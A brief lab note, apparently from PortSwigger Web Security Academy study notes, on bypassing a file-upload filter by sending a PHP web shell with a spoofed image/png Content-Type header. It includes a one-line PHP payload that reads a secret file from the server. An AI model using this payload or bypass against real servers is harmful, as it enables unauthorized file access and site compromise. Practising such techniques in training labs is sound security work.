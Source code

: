 # Web shell upload via Content-Type restriction bypass

Source: Portswigger
Tools: Burpsuite
Technique: FIle upload
Fields: Web

- Upload php file ( <?php echo file_get_contents('/home/carlos/secret'); ?> ) with Content-Type header: image/png → successful